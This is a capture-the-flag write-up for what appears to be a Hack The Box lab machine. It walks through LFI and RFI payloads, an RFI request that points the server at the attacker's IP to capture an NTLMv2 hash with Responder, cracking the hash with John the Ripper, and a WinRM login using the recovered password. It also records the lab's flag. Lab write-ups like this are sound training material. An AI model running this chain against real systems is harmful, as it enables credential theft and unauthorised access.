







# Title
Name of set - Tier X

### 1. When visiting the web service using the IP address, what is the domain that we are being redirected to?
Putting this in the browser gives us `unika.htb`.

### 2. Which scripting language is being used on the server to generate webpages?
Mapping the domain `unika.htb` to its IP `10.129.168.252` in my `/etc/hosts` file:



Had to dig around until I hit the `FR` page, but now it's obvious that it's PHP.

### 3. What is the name of the URL parameter which is used to load different language versions of the webpage?
It is `page`. This is visible in the image found in [2](#2-which-scripting-language-is-being-used-on-the-server-to-generate-webpages).

### 4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "mimikatz.exe"
`"../../../../../../../../windows/system32/drivers/etc/hosts"`pip3
This file name indicates path traversal.

### 5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "./../../../../../../../windows/system32/drivers/etc/hosts", "mimikatz.exe"
`//10.10.14.6/somefile`
This contains an IP, indicating remote retrieval.

### 6. What does NTLM stand for?
New Technology Lan Manager

### 7. Which flag do we use in the Responder utility to specify the network interface?
`-I`

### 8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
John the Ripper

### 9. What is the password for the administrator user?
This was a little tricky, but all the PortSwigger practice paid off.

First, we run Responder in a Python virtual environment:

> ```python
> sudo .venv/bin/python Responder.py -A -v
> ```

Once it's listening, we then induce a reverse-DNS lookup by triggering a remote inclusion vulnerability on the server:

> `wget http://unika.htb/index.php?page=//10.10.16.70/home/coronne/htb/win-hosts`

Here, `10.10.16.70` is the private IP of the VPN tunnel that I used.



We'll receive the above SMB message on Responder. I copied the hash onto a file named `hash` and used `john-the-ripper` to crack it:



Here, we can see that the password is `badminton`.

### 10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
Using `nmap -sS -T5 -p- 10.129.168.252`:



We can see that the Windows service `wsman` (Web Services for Management) is rnning on port `5985`.

### 11. On which user's desktop is the flag located?
I used `evil-winrm` to access `wsman` on the remote machine. I connected using the following command:

> `wrm -i 10.129.168.252 -u Administrator -p badminton`

Then, I was able to access a shell on the remote machine. After digging around, I found the flag in `C:\Users\mike\Desktop`:



## Flag


As shown above, the flag is `ea81b7afddd03efaa0945333ed147fac`.


## Solved!
